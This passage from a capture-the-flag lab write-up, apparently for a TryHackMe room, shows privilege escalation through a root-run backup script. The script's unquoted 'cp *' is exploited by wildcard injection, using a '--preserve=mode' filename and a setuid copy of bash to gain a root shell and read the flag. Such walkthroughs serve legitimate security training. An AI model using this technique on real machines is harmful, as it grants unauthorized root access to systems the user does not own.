 It seems like there is some sort of backup going in the background by the root user that backups the contents of the `report` directory but, it changes the `ownership` to root, let's use `pspy` to check if its true:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250504153600.png)

Nothing weird on here, maybe we are checking for a binary, let's use linpeas then:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250504153821.png)

We got a `/usr/bin/backup`, let's check it out:

```
gordon@devie:~$ file /usr/bin/backup
/usr/bin/backup: Bourne-Again shell script, ASCII text executable

gordon@devie:~$ cat /usr/bin/backup
#!/bin/bash

cd /home/gordon/reports/

cp * /home/gordon/backups/
```

As seen, this uses `*` to copy the contents of the `reports` directory to the `backups` directory, this is vulnerable to `wildcard injection` due to the `*` character being `unquoted`,  we can get a root shell by doing the following:

```
cd /home/gordon/reports/
touch -- '--preserve=mode'
cp /bin/bash .
chmod u+s bash
```

Once the /usr/bin/backup triggers, we can now see the bash binary inside of the backups directory:

```
gordon@devie:~/backups$ ls -la
total 1180
drwxrwx--- 2 gordon gordon    4096 May  4 21:06 .
drwxr-xr-x 6 gordon gordon    4096 May  4 20:36 ..
-rwsr-xr-x 1 root   root   1183448 May  4 21:07 bash
-rwxrwxr-x 1 root   root        25 May  4 21:07 exploit.sh
-rw-r--r-- 1 root   root        57 May  4 21:07 report1
-rw-r--r-- 1 root   root        72 May  4 21:07 report2
-rw-r--r-- 1 root   root       100 May  4 21:07 report3
```

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250504160803.png)

There we go, let's read root flag and finish:

```
bash-5.0# cat /root/root.txt
THM{J0k3r$_Ar3_W1ld}
```

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250504160833.png)


